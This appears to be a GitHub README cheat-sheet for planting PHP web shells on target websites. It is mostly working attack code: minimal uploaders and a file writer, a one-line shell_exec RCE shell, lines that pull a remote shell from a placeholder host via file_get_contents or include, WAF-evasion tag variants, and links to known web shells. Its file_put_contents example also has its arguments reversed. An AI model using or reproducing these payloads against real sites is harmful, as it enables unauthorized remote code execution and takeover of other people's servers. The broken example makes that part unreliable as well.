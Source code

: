 # PHP Shell Uploading Scripts and Bypass
### Uploader
1. Normal File Uploader


    <?php 
        echo 'Uploader<br>';
        echo '<form action="" method="post" enctype="multipart/form-data">';
        echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" value="Upload"></form>';
        if( $_POST['_upl'] == "Upload" ) {
            if(copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) {
                echo '<b>Success</b><br><br>';
            }else {
                echo '<b>Failed</b><br><br>'; 
            }
        }
    ?>

2. CSRF File Uploader

>This uploader bypasses content length if the normal file uploader code is too long. To access this, open the file where you save it and do a CSRF with POST file value of `file`.

	
    <?php
    	copy($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    ?>
> This saves your file to the same directory of the uploader.    
3. File Get Contents


    <?php
    	file_put_contents(file_get_contents('https://somesite.com/shell.txt'),'shell.php');
    ?>
> Will work if `allow_url_fopen` is on. Upload this as up.php then open it. It will automatically generate a file named shell.php on the same directory.

4. File Writer ([link](https://github.com/alita-ido/PHP-File-Writer))
>If you managed to make a file uploader but it doesn't work, maybe the site does not allow uploading. Some sites don't enable upload functions, hence `move_uploaded_files` and `copy_uploaded_files` will not work. File writer works by using different command (`fwrite`).


	<?php
    	$a = $_POST['code'];
        $file = fopen($_POST['file'],'w');
        fwrite($file,$a);
        fclose($file);
	?>
    <center>
      <form method="post" id="form">
        <h2>File Writer</h2>
        File Name<br><input type="text" name="file" placeholder="shell.php"><br>
        Shell Code<br><textarea name="code" form="form" placeholder="Paste your shell here"></textarea><br>
        <input type="submit" value="Write">
      </form>
    </center>
If all of the above fails or is blocked by WAF, try using other php notations.

a. `<?php echo 'sample'; ?>` - normal one

b. `<? echo 'sample'; ?>` - will work if short_open_tag is enabled

c. `<% echo 'sample'; %>` - PHP < 7.0.0

d. `<script language="php"> echo 'sample'; </script>` - PHP < 7.0.0

### Shell Codes I use
1. [b374k](http://www.topshellv.com/shell/b374k-shell)
> This shell is large >900kb. The size is large which gives room to more functionality. But more functionality means more functions used, and more functions used results to more `DISABLE_FUNCTIONS` which might result again to error in shell or blocked by WAF.

2. [RBBD priv8 shell](https://github.com/iamhex/Priv8-Shell-v3)
> I think this is a "so called" bypass shell.It is light weight, around ~70kb. I think it is based on wso.php web shell

3. [b374k-mini](https://github.com/The404Hacking/b374k-mini/)
> File size is ~14kb and bypasses as well some WAFs while uploading

4. RCE shell
> I use this when we need to  upload a shell with very small file size

	<?=`$_GET[1]`?>
> This is a shorthand notation for `<?php echo shell_exec($_GET['1']);?>`. But note that this only works if `shell_exec` is not in the `DISABLE_FUNCTIONS` in phpinfo.

5. Include
> Used for bypassing file size as well due to its small size.

	<?php include('https://somewebshell.com/shell.txt');?>
    
> This will work only if `allow_url_include` is not in the `DISABLE_FUNCTIONS` in phpinfo.
